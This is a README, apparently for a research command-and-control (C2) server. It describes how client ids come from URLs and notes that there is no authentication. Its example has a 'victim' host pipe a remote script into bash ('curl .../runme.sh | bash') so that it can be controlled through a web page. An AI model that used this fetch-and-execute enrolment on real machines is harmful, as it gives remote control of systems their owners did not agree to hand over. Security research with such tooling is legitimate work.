 # ResearchServers C2

A simple, single user, Command & Control server built on top of ajxchapman/researchservers.

**NOTE:** This does not implement *any* authentication. Anyone with knowledge of the URL a client connects over will be able to issue commands to the client.

Clients are given ids based on the connecting URL, for example a client connecting to https://c2.exmaple.com/client1/ will have an id of `client1`. In order to control this client you must connect to https://c2.example.com/client1/controller.html.

Ids are calculated from the URL Hostname and Path of the connecting client, e.g. :
* https://c2client2.example.com will have an id of `client2`
* https://www.example.com/c2client3/ will have an id of `client3`
* https://www.example.com/c2client4/test/ will have an id of `client4.test`
* https://c2org.example.com/it/ will have an id of `org.it`

The `/get_id` endpoint can tell you the id for a given URL:
```bash
user@victim:~$ curl https://c2org.example.com/c2id11211/testing/get_id
{"id": "org.id11211.testing"}
```

In order for requests to be routed to the c2 backend either the hostname or the first path directory must begin with the string `c2`.

## Example

`victim`
```bash
user@victim:~$ curl https://c2client1.example.com/runme.sh | bash
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                               Dload  Upload   Total   Spent    Left  Speed
100   458  100   458    0     0   1721      0 --:--:-- --:--:-- --:--:--  1721
```

`server`
https://c2.example.com/client1/controller.html
